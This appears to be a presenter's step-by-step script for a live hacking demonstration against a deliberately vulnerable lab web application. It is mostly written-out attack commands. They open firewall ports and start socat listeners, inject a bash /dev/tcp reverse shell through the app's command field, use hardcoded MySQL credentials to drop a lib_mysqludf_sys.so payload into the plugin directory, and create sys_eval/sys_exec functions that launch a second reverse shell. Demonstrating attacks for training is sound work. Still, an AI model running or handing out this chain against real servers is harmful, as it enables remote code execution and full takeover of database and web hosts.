 #. ensure iptables on laptop is open to receive reverse shells.
   #. sudo iptables -I INPUT -p tcp --dport 11457 -j ACCEPT
   #. sudo iptables -I INPUT -p tcp --dport 11458 -j ACCEPT
#. launch terminator onto projector
   #. split into 4 panes
       #. ctrl + shift + o (split horizontal)
       #. ctrl + shift + e (split vertical)
#. upper left pane.
    #. socat readline TCP-LISTEN:11457 
#. upper right pane.
    #. socat readline TCP-LISTEN:11457 
#. lower left pane
    #. ping 172.16.33.2 show web server is up
    #. launch stage_webshell.sh in lower left of terminator
#. lower right pane
   #. once stage_webshell.sh has completed, launch stage_udf.sh

#. open browser to http://172.16.33.2/vuln_webapp/images.php
    #. in "Run command dialogue": bash -i >& /dev/tcp/172.16.33.1/11457 0>&1 &
    #. head back to terminator upper left pane
        #. run
            #. id
            #. w
            #. cat sqli.php (not getting db server details)
            #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp < data.sql 
            #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT @@GLOBAL.plugin_dir" 
            #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT payload FROM udf_stager INTO DUMPFILE '/usr/lib64/mysql/plugin/lib_mysqludf_sys.so'"

            #. cat > data2.sql << EOF
               DROP FUNCTION IF EXISTS lib_mysqludf_sys_info;
               DROP FUNCTION IF EXISTS sys_get;
               DROP FUNCTION IF EXISTS sys_set;
               DROP FUNCTION IF EXISTS sys_exec;
               DROP FUNCTION IF EXISTS sys_eval;

               CREATE FUNCTION lib_mysqludf_sys_info RETURNS string SONAME 'lib_mysqludf_sys.so';
               CREATE FUNCTION sys_get RETURNS string SONAME 'lib_mysqludf_sys.so';
               CREATE FUNCTION sys_set RETURNS int SONAME 'lib_mysqludf_sys.so';
               CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
               CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';
               EOF
            #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp < data2.sql 
            #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('id')" 
            #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('whoami')" 
             #. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('bash -i >& /dev/tcp/172.16.33.1/11458 0>&1 &')"
    #. head back to terminator upper right pane
        #. run
            #. id
            #. whoami
            #. uname -a


